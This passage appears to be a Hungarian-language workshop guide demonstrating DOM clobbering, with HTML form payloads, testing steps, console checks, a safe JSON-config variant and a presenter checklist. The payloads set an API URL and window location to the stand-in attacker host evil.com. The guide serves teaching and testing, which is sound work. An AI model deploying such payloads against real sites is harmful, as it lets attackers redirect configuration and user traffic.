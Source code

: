 #### **3. Nested Clobbering**
```html
<form id="config">
    <input name="apiUrl" value="https://evil.com">
    <input name="timeout" value="0">
    <input name="debug" value="true">
</form>
```

#### **4. Komplex Clobbering**
```html
<form id="window">
    <input name="location" value="https://evil.com">
</form>
```

### **Tesztelési Folyamat**
1. **Másold be a HTML payloadot**
2. **Kattints "Inject HTML"**
3. **Nézd meg az injektált tartalmat**
4. **Kattints "Process Config"**
5. **Figyeld meg a DOM clobbering eredményét**

### **Konzol Tesztelés**
```javascript
// A demó futtatása után próbáld ki ezeket:
console.log(typeof window.config);     // object (HTMLFormElement)
console.log(config.constructor.name);  // HTMLFormElement
console.log(config.apiUrl);            // "https://evil.com"
```

### **Biztonságos Verzió Tesztelése**
1. **JSON konfigurációt adj meg**
2. **Kattints "Set Safe Config"**
3. **Kattints "Process Safe Config"**
4. **Eredmény: Biztonságos működés**

---

## ✅ Ellenőrző Listák

### **Pre-Demo Checklist (Előadó számára)**

#### **Technikai Előkészületek**
- [ ] Node.js telepítve és működik
- [ ] Projekt letöltve és függőségek telepítve
- [ ] Server sikeresen indul (`npm start`)
- [ ] Minden demó működik böngészőben
- [ ] Internet kapcsolat stabil
- [ ] Backup terv készen áll (screenshotok)
